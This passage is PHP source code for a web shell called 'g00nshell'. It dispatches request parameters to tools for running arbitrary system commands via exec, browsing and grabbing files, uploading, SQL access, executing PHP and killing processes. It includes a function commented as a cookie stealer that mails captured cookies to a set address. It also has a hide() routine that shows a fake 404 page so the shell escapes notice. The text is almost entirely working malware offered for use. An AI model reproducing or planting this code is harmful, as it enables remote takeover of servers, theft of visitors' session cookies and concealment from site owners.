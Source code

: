     die();
  }
}
if(!$act && !$cmd && !$cookie && !$f && !$dir && !$gf && !$img){main();}
elseif(!$act && $cmd){
  style();
  echo("&lt;b&gt;Results:&lt;/b&gt;\n&lt;br&gt;&lt;textarea rows=20 cols=100&gt;");
  $cmd = exec($cmd, $result);
  foreach($result as $line){echo($line . "\n");}
  echo("&lt;/textarea&gt;");
}
elseif($cookie){@mail("$email", "Cookie Data", "$cookie", "From: $email"); hide();} // Cookie stealer function
elseif($act == "view" && $f && $dir){view($f, $dir);}
elseif($img){img($img);}
elseif($gf){grab($gf);}
elseif($dir){files($dir);}
else{
  switch($act){
    case "phpinfo": phpinfo();break;
    case "sql": sql();break;
    case "files": files($dir);break;
    case "email": email();break;
    case "cmd": cmd();break;
    case "upload": upload();break;
    case "tools": tools();break;
    case "sqllogin": sqllogin();break;
    case "sql": sql();break;
    case "lookup": lookup();break;
    case "kill": kill();break;
    case "phpexec": execphp();break;
    default: main();break;
  }
}
function cleandir($d){ // Function to clean up the $dir and $curdir variables
  $d = realpath($d);
  $d = str_replace("\\\\", "//", $d);
  $d = str_replace("////", "//", $d);
  $d = str_replace("\\", "/", $d);
  return($d);
}
function hide(){ // Hiding function
  global $self, $soft, $servip, $servport;
die("&lt;!DOCTYPE HTML PUBLIC '-//IETF//DTD HTML 2.0//EN'&gt;
&lt;HTML&gt;&lt;HEAD&gt;
&lt;TITLE&gt;404 Not Found&lt;/TITLE&gt;
&lt;/HEAD&gt;&lt;BODY&gt;
&lt;H1&gt;Not Found&lt;/H1&gt;
The requested URL $self was not found on this server.&lt;P&gt;
&lt;P&gt;Additionally, a 404 Not Found
error was encountered while trying to use an ErrorDocument to handle the request.
&lt;HR&gt;
&lt;ADDRESS&gt;$soft Server at $servip Port $servport&lt;/ADDRESS&gt;
&lt;/BODY&gt;&lt;/HTML&gt;");
}
function style(){ // Style / header function
  global $servip,$version;
  echo("&lt;html&gt;\n
  &lt;head&gt;\n
  &lt;title&gt;g00nshell v" . $version . " - " . $servip . "&lt;/title&gt;\n
  &lt;style&gt;\n
  body { background-color:#000000; color:white; font-family:Verdana; font-size:11px; }\n
  h1 { color:white; font-family:Verdana; font-size:11px; }\n
  h3 { color:white; font-family:Verdana; font-size:11px; }\n